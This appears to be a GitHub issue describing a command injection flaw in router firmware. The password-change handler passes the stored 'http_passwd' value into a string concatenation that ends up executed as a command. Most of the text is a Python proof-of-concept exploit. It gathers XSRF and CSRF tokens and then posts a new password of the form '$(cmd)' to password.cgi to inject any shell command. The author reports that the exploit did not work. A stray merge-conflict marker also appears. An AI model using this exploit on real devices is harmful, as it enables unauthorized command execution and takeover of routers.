


<<<<<<< HEAD
First, in function sub_31D4C, "http_passwd" is obtained through sub_16B04("sysNewPasswd") and stored in v26, then the value of v26 is stored in nvram through acosNvramConfig_set, and then the value of nvram is read. Finally, in function sub_6A384(), v6 through function acosNvramConfig_get() obtain the "http_passwd",then stacat() to v16, causing a command injection. 

and the poc is following:
<pre>
#!/usr/bin/python3

import requests
import base64
import re

target = input("Enter Target IP : ")
username = input("Enter Target username : ")
passwd = input("Enter Target passwd : ")
cmd = input("Enter you want cmd : ")

username_passwd = username + ":" + passwd
auth = base64.b64encode(username_passwd.encode('utf-8')).decode("utf-8")
print(auth)

#request 1 : get XSRF_TOKEN
burp0_url = "http://" + target + ":80/PWD_password.htm"
burp0_cookies = {"XSRF_TOKEN": "2267229739"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic 123123", "Connection": "close",  "Upgrade-Insecure-Requests": "1"}
response1 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

if 'Set-Cookie' in response1.headers:
    set_cookie = response1.headers['Set-Cookie']
    print(f'The Set-Cookie value is: {set_cookie}')
else:
    print('No Set-Cookie field in the response header')

pattern = r'(?<=\=)([^;]*)'
XSRF_TOKEN = re.findall(pattern, set_cookie)[0]
print(XSRF_TOKEN)

#request 2 : get csrf_id
burp0_cookies = {"XSRF_TOKEN": XSRF_TOKEN}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic " + auth, "Connection": "close", "Upgrade-Insecure-Requests": "1"}
response2 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
pattern = r'cgi\?id=([\w\d]+)'
csrf_id = re.search(pattern, response2.text).group(1)
print("csrf_id is :" + csrf_id)

#request 3 : send payload
burp0_url = "http://" + target + ":80/password.cgi?id=" + csrf_id
burp0_data = {"apply": "Apply", "sysOldPasswd": "Qwer1234", "sysNewPasswd": "$(" + cmd + ")"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "text/plain", "Origin": "http://" + target, "Authorization": "Basic " + auth, "Connection": "close", "Upgrade-Insecure-Requests": "1"}

response3 = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

print('end!!!')

</pre>

However, nothing happens after I use the test case. I am very confused and hope you can discuss it with me.
